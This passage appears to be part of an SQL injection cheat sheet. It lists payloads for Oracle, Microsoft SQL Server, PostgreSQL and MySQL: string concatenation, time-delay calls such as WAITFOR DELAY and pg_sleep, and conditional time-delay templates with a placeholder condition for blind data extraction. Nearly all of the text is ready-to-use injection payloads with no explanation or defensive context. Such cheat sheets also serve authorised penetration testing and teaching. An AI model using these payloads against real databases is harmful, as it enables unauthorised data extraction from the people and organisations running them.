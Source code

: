 <span id="anchor-124"></span>Microsoft

|             |
| ----------- |
| 'foo'+'bar' |

<span id="anchor-125"></span>SQL Time Delays

<span id="anchor-126"></span>Oracle

|                                       |
| ------------------------------------- |
| dbms\_pipe.receive\_message(('a'),10) |

<span id="anchor-127"></span>Microsoft

|                        |
| ---------------------- |
| WAITFOR DELAY '0:0:10' |

<span id="anchor-128"></span>PostgreSQL

|                      |
| -------------------- |
| SELECT pg\_sleep(10) |

<span id="anchor-129"></span>MySQL

|                  |
| ---------------- |
| SELECT sleep(10) |

<span id="anchor-130"></span>SQL Conditional Time Delays

<span id="anchor-131"></span>Oracle

|                                                                                                                |
| -------------------------------------------------------------------------------------------------------------- |
| SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms\_pipe.receive\_message(('a'),10) ELSE NULL END FROM dual |

<span id="anchor-132"></span>Microsoft

|                                                 |
| ----------------------------------------------- |
| IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10' |

<span id="anchor-133"></span>PostgreSQL

|                                                                                 |
| ------------------------------------------------------------------------------- |
| SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg\_sleep(10) ELSE pg\_sleep(0) END |

<span id="anchor-134"></span>MySQL

|                                              |
| -------------------------------------------- |
| SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') |
